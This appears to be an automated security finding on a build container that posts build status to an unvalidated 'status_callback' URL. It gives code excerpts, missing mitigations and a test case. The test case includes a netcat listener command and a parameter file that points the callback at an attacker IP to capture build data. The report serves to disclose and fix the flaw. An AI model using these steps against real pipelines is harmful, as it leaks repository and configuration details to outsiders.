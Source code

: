 ### Vulnerability List

- Vulnerability Name: Status Callback URL Injection
- Description:
    1. An attacker can control the `status_callback` parameter during the build process. This parameter is intended to be a URL where the build container sends notifications about the build status (success, error, processing, timeout).
    2. The application takes the `status_callback` URL from the build arguments without any validation or sanitization.
    3. When the build process reaches a completion state (success, error, or timeout), the application sends an HTTP POST request to the URL specified in `status_callback`.
    4. By injecting a malicious URL into the `status_callback` parameter, an attacker can redirect these build status notifications to an attacker-controlled server.
    5. This allows the attacker to intercept and inspect the content of these POST requests, which may contain sensitive build information such as repository details, branch names, and potentially error messages that reveal internal configurations or vulnerabilities.
- Impact:
    - Information Disclosure: An attacker can gain access to sensitive build information that is included in the status callback notifications. This information could include details about the repository, branch, build status, and potentially error messages that expose internal configurations.
    - Potential for Further Attacks: By controlling the notification endpoint, an attacker might be able to use the intercepted information to plan further attacks or to trigger unintended actions based on the build status. For example, if the notification includes details about successful builds and deployed versions, it could aid in identifying attack targets and potential vulnerabilities in specific versions of the deployed website.
- Vulnerability Rank: Medium
- Currently Implemented Mitigations:
    - None. The application directly uses the provided `status_callback` URL without any checks or sanitization.
- Missing Mitigations:
    - Input validation and sanitization for the `status_callback` URL are missing.
    - Implement a whitelist of allowed domains or URL patterns for the `status_callback`.
    - Sanitize the `status_callback` URL to prevent injection of malicious code or unintended characters.
    - Consider encrypting sensitive information within the status callback payload if exfiltration is a major concern, even though preventing the injection is the primary goal.
- Preconditions:
    - An attacker must be able to influence the build arguments provided to the `main.py` script. This is possible if the build process is triggered by an external system where the attacker can manipulate the input parameters, specifically the `status_callback` parameter.
- Source Code Analysis:
    1. **`src/main.py`**:
        - The `main.py` script uses `argparse` to parse command-line arguments, including `-p/--params` and `-f/--file` to receive build parameters.
        - If the `-p/--params` argument is used, the `decrypt_params` function is called to decrypt the parameters. This function, however, does not validate the content of the parameters, including the `status_callback`.
        - The `build` function from `src/build.py` is called with these parameters, including the `status_callback` URL.
    2. **`src/build.py`**:
        - The `build` function receives `status_callback` as an argument.
        - It then calls functions from `src/log_utils/remote_logs.py` like `post_build_processing`, `post_build_complete`, `post_build_error`, and `post_build_timeout`, passing the `status_callback` URL directly to these functions.
    3. **`src/log_utils/remote_logs.py`**:
        - Functions like `post_status`, `post_build_complete`, `post_build_error`, `post_build_timeout`, and `post_metrics` take the `status_callback_url` as input.
        - These functions use `requests.post(status_callback_url, ...)` to send HTTP POST requests to the provided URL.
        - There is no validation or sanitization of `status_callback_url` before it is used in the `requests.post` call.

    ```
    src/main.py:
    ...
    if args.params:
        params = json.loads(args.params)
        params = decrypt_params(params)  # Parameters are decrypted, but not validated for malicious URLs

    build_arguments = inspect.getfullargspec(build)[0]
    kwargs = {k: v for (k, v) in params.items() if k in build_arguments} # kwargs includes status_callback

    build(**kwargs) # status_callback is passed to build function

    src/build.py:
    def build(..., status_callback, ...):
        ...
        post_build_processing(status_callback) # status_callback is passed to post_build_processing
        ...
        post_build_complete(status_callback, commit_sha) # status_callback is passed to post_build_complete
        ...

    src/log_utils/remote_logs.py:
    def post_status(status_callback_url, status, output='', commit_sha=None):
        requests.post( # status_callback_url is used directly in requests.post without validation
            status_callback_url,
            json={
                'status': status,
                'message': b64string(output),
                'commit_sha': commit_sha,
            },
            timeout=10
        )
    ```

- Security Test Case:
    1. **Setup Attacker Server:**
        - Use `netcat` to set up a simple listener on your attacker machine to capture HTTP requests.
        - Open a terminal and run: `nc -lvp 8080` (or any port you prefer).
    2. **Craft Malicious URL:**
        - Identify the public IP address or hostname of your attacker machine.
        - Create a malicious `status_callback` URL pointing to your netcat listener, for example: `http://<attacker-ip>:8080/`.
    3. **Initiate Build with Malicious URL:**
        - Prepare a build parameter JSON. Include all required parameters like `aws_access_key_id`, `aws_secret_access_key`, `aws_default_region`, `bucket`, `generator`, `owner`, `repository`, `branch`, and importantly, set `status_callback` to the malicious URL created in the previous step.
        - Example `build_params.json`:
            ```json
            {
              "aws_access_key_id": "YOUR_AWS_ACCESS_KEY_ID",
              "aws_secret_access_key": "YOUR_AWS_SECRET_ACCESS_KEY",
              "aws_default_region": "YOUR_AWS_REGION",
              "bucket": "YOUR_S3_BUCKET_NAME",
              "generator": "static",
              "owner": "test-owner",
              "repository": "test-repo",
              "branch": "main",
              "site_prefix": "test-site",
              "status_callback": "http://<attacker-ip>:8080/"
            }
            ```
        - Run the build container using Docker Compose, providing the build parameters file:
          ```bash
          docker-compose run --rm app python main.py -f /tmp/local/build_params.json
          ```
          (Make sure to replace `<attacker-ip>` with your attacker machine's IP and fill in the AWS credentials and bucket details with valid or dummy values if you are testing locally and not actually publishing to S3).
    4. **Observe Attacker Server Logs:**
        - Check the terminal where you ran `netcat`.
        - After the build process in the container completes (or fails), you should see an incoming HTTP POST request logged by netcat.
        - The request will contain the build status information sent by the build container to the attacker-controlled URL.
    5. **Inspect Captured Data:**
        - Examine the captured HTTP POST request data. It should contain a JSON payload with `status`, `message` (base64 encoded), and `commit_sha`. The `message` might contain sensitive build details when decoded.

This test case demonstrates that an attacker can successfully intercept build status notifications by injecting a malicious URL into the `status_callback` parameter, confirming the vulnerability.